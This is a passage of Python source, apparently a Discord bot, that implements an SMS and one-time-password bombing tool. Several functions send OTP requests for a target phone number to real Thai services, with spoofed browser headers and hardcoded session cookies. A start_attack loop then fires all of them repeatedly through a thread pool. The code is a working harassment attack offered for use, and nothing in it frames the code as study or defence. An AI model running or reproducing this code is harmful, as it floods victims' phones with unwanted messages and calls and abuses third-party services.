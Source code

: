              data=f"track_id=b3dc4a29a19d038f1cd522187726d7bb5a&csrf_token=e150046ff026a517c15d45444294ffa3275b140c%3A1645857142788&number={phone}&isCodeWithFormat=true&confirm_method=by_sms")

    def api101(phone):

        session = Session()

        ReqTOKEN = session.get(

            "https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated", headers={"User-Agent": useragent}).text

        res = session.post("https://srfng.ais.co.th/api/v2/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms", headers={

                           "User-Agent": useragent, "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

    def api102(phone):

        post("https://api.zaapi.co/api/store/auth/otp/login", json={"phoneNumber": f"+66{phone[1:]}", "namespace": "zaapi-buyers"}, headers={

             "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})

    def api103(phone):

        post("https://www.theconcert.com/rest/request-otp", json={"mobile": phone, "country_code": "TH", "lang": "th", "channel": "call", "digit": 4}, headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",

             "cookie": "_gcl_au=1.1.708266966.1646798262;_fbp=fb.1.1646798263293.934490162;_gid=GA1.2.1869205174.1646798265;__gads=ID=3a9d3224d965d1d5-2263d5e0ead000a6:T=1646798265:RT=1646798265:S=ALNI_MZ7vpsoTaLNez288scAjLhIUalI6Q;_ga=GA1.2.2049889473.1646798264;_gat_UA-133219660-2=1;_ga_N9T2LF0PJ1=GS1.1.1646798262.1.1.1646799146.0;adonis-session=a5833f7b41f8bc112c05ff7f5fe3ed6fONCSG8%2Fd2it020fnejGzFhf%2BeWRoJrkYZwCGrBn6Ig5KK0uAhDeYZZgjdJeWrEkd2QqanFeA2r8s%2FXf7hI1zCehOFlqYcV7r4s4UQ7DuFMpu4ZJ45hicb4xRhrJpyHUA;XSRF-TOKEN=aacd25f1463569455d654804f2189bc77TyRxsqGOH%2FFozctmiwq6uL6Y4hAbExYamuaEw%2FJqE%2FrWzfaNdyMEtwfkls7v8UUNZ%2BFWMqd9pYvjGolK9iwiJm5NW34rWtFYoNC83P0DdQpoiYfm%2FKWn1DuSBbrsEkV"})

def start_attack(phone, amount):

    for _ in range(amount):

        for functions in [func for func in dir(APIsms) if callable(getattr(APIsms, func)) and not func.startswith("__")]:

            exec(f'ThreadPool.submit(APIsms.{functions}, phone)')

@bot.event

async def on_connect():

    await bot.change_presence(activity=discord.Game(name=f"{ACTIVITY}"))

    print(f"""

       [+] Login Bot : {bot.user.name}#{bot.user.discriminator}
